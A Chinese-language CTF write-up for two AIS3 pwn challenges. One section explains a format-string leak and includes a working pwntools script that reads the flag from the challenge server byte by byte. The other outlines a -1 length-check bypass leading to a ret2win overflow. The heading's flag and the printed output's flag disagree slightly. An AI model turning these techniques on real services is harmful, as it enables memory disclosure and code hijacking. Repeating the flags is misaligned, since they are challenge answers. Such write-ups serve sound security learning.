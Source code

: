 ## Format Number

> flag: `AIS3{S1d3_ch@nn3l_0n_fOrM47_stln&_!!!}`

這題給了一個 `%3_d` 底線部分可以改成數字或符號  
不過這就表示任意的 format string 像是 `%19$p` 沒辦法被輕易執行  
我當下想說：既然 format string 是讀取 `$` 符號後面的字符  
那我是不是也可以用 `'1'` 這種數字的字元來觸發他  
所以我打算把 payload 改成 `%3$'1' %19$d` 這樣也許可以無效化原本的 payload  
經過測試，發現這個做法是可行的，接著在平台上戳戳看，發現 20 就是 AIS3 的 A  
所以簡單的寫一個 exploit  

```python
from pwn import *

flag = ""

for i in range(20, 100):
    r = remote("chals1.ais3.org", 50960)
    payload = f"$'1'%{i}$".encode()
    r.sendlineafter(b"What format do you want ? ", payload)
    a = r.recvline().strip().decode().split()[-1].split("'1'")[-1]
    # log.success(f"revieved: {a}")
    if a == "0":
        break
    flag += chr(int(a))
    r.close()

log.success(flag)
```

運行過程：

```bash
❯ python3 exp.py
[+] Opening connection to chals1.ais3.org on port 50960: Done
[*] Closed connection to chals1.ais3.org port 50960
[+] Opening connection to chals1.ais3.org on port 50960: Done
[*] Closed connection to chals1.ais3.org port 50960
...
[+] Opening connection to chals1.ais3.org on port 50960: Done
[+] AIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}
[*] Closed connection to chals1.ais3.org port 50960
```

## Welcome to the World of Ave Mujica🌙

> flag: `AIS3{MyGO!!!!!T0m0rin_1s_cut3@u_a2r_mAsr3r_0f_CP1usp1us_string_a2d_0verf10w!_alpha_v3r2on_have_br0ken...Go_p1ay_b3ta!}`

用 gdb 直接起來測試就可以看到一個帥氣的 banner  
經過 ida 反組譯後就可以發現前面要輸入 `yes` 和一個輸入長度  
但是這邊有一個漏洞：可以利用 -1 來繞過最大數字檢查，同時輸入大量字元  
除此之外，還可以看到一個可疑的函式 `Welcome_to_the_world_of_Ave_Mujica` 裡面有個後門  
checksec 檢查後可以看到這題沒開 PIE 跟 canary，所以就直接 cyclic 算 offset 然後跳到 win 執行  

